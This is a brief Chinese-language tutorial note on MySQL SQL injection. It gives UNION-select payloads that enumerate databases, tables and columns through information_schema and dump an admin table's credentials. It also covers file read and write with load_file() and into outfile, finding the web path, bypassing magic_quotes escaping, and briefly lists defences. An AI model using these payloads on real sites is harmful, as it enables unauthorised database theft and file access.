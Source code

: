 **高权限注入以及低权限注入**

1.跨库查询

  information_schema 表特性 记录表名，列名，库名

> 获取数据库名：
>
>   www.xxx.com/?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata
>
> 获取指定数据库名下的表的信息：
>
> union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='数据库名'
>
> 获取指定数据库下的表名为admin下的列名信息：
>
> union select 1,group_concat(column_name),3 from information_schema.columns where table_schema='admin' and table_schema='数据库名' 
>
> 获取指定‘数据库’下的admin数据：
>
> union select 1,u,p,4 from 数据库名.admin
>
> 

#文件读写操作（mysql独特的内置函数）

load_file():  读取函数

into outfile ‘ 内容’  或者 into dumpfile ‘  ’:  导出函数

#获取网站路径的相关方法：

报错显示，遗留文件（phpinfo），漏洞报错，平台配置文件报错（my.ini,php.ini;路径很难确定)，爆破

在我们得到路径之后，可以用函数读取文件的数据；

#常见文件写入的问题：

magic_quotes_gpc 是否开启/关闭------转义开关；在遇到字符转义时，可以采用编码或者宽字节进行绕过

#如何防御sql注入呢？

添加过滤函数；进行输入的判断；自定义关键字过滤（大小写过滤，符号等）；WAF防护软件（安全狗，宝塔，阿里云）。